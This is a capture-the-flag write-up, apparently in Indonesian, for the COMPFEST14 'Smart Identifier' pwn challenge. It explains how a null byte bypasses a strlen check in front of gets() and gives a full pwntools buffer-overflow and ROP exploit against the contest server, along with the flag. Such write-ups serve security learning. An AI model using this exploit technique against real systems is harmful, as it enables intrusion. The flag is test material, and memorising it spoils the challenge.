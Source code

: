 ## Smart Identifier

![chall](attachments/chall.png)

## Overview & Description

Author : ReeyaDono

Points : 463 pts

This program can identify who you are (source: trust me bro!). Cmon, try it. It’s not like this program is fake or anything :D.

nc 13.212.50.63 11111

nc 13.212.50.63 11112

[libc-2.27.so](https://ctf.compfest.id/files/863d1f8398b5faf648475e028cc72373/libc-2.27.so?token=eyJ1c2VyX2lkIjo3NzMsInRlYW1faWQiOjQ4NiwiZmlsZV9pZCI6MTExfQ.Y3TiQA.gl9OF03IIvQX1iYWQhaxi2aNOds) 
[ld-2.27.so](https://ctf.compfest.id/files/c9ec4f172b6559aad92f981aaeae84d6/ld-2.27.so?token=eyJ1c2VyX2lkIjo3NzMsInRlYW1faWQiOjQ4NiwiZmlsZV9pZCI6MTEyfQ.Y3TiQA.inInTNnFzQI_a4RvpVkIoOpjO8s)
[chall](https://ctf.compfest.id/files/896e47af4fef0efc1a7a975a5e8dda0e/chall?token=eyJ1c2VyX2lkIjo3NzMsInRlYW1faWQiOjQ4NiwiZmlsZV9pZCI6MTEzfQ.Y3TiQA.a9QtPeoRwg-Kdy5v0c8efrRHwt8)



## Hints



## Step by Step

Diberikan sebuah file elf dengan vuln BOF (buffer overflow), berikut rincian dalam checksec

![checksec](attachments/checksec.png)

Coba kita disassemble fungsi main()

```c
undefined8 main(void)

{
  ulong uVar1;
  undefined auStack88 [80];
  
  setvbuf(stdout,0,2,0);
  puts("Tell me about yourself");
  gets(auStack88);
  uVar1 = strlen(auStack88);
  if (0x40 < uVar1) {
    puts("You talk too much");
    exit(0);
  }
  puts("Who are you");
  return 0;
}
```

Terdapat gets, dan strlen sebagai checker agar input tidak lebih dari 0x40 (64), untuk bypass strlen sebenarnya cukup mudah, dengan menambahkan null byte **'\x00'**.

Setelah bertemu null byte strlen akan berhenti menghitung input setelahnya, dan disinilah letak kerentanannya. Setelahnya tinggal melakukan BOF seperti biasa, lalu ROP ke fungsi win().

Full script:

```python
from pwn import *

elf = context.binary = ELF('./chall')

p = remote("13.212.50.63", 11111) 

ret = p64(0x40126e) #return address bisa dicari dari ROPgadget / gdb

payload = b'\x00'
payload += b'A' * 87 #64 + 23 bytes offset
payload += ret
payload += p64(elf.sym['win'])

p.sendline(payload)
p.interactive()
```

![flag](attachments/flag.png)

## Flag

**COMPFEST14{so_you_are_the_one_who_bof_me_yesterday_f944b5b6d3}**

